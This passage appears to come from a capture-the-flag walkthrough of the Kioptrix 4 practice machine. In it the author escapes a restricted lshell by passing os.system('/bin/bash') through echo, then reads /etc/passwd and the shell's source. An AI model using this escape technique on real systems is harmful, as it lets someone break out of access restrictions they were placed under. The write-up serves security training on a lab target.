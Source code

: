 So those credentials work but we're stuck in a restricted shell!

# [](#header-2)Escaping the Restricted Shell

Lets enumerate our environment a bit more and see what we can execute.

```
robert:~$ ?
cd  clear  echo  exit  help  ll  lpath  ls
```

Pretty restricted!

Thankfully some googling around reveals a vulnerability in `lshell` that allows a user to escape by passing the following python snippet to `echo`. This shell is described as `LigGoat Shell` so it's worth a try!

```
robert:~$ echo os.system('/bin/bash')
robert@Kioptrix4:~$ whoami
robert
robert@Kioptrix4:~$ id
uid=1002(robert) gid=1002(robert) groups=1002(robert)
robert@Kioptrix4:~$ echo $SHELL
/bin/kshell
robert@Kioptrix4:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
mysql:x:104:108:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
loneferret:x:1000:1000:loneferret,,,:/home/loneferret:/bin/bash
john:x:1001:1001:,,,:/home/john:/bin/kshell
robert:x:1002:1002:,,,:/home/robert:/bin/kshell
robert@Kioptrix4:~$ file /bin/kshell
/bin/kshell: a python script text executable
robert@Kioptrix4:~$ cat /bin/kshell
#!/usr/bin/env python
#
# $Id: lshell,v 1.5 2009/07/28 14:31:26 ghantoos Exp $
#
#    Copyright (C) 2008-2009 Ignace Mouzannar (ghantoos) <ghantoos@ghantoos.org>
#
#    This file is part of lshell
#
#    This program is free software: you can redistribute it and/or modify
```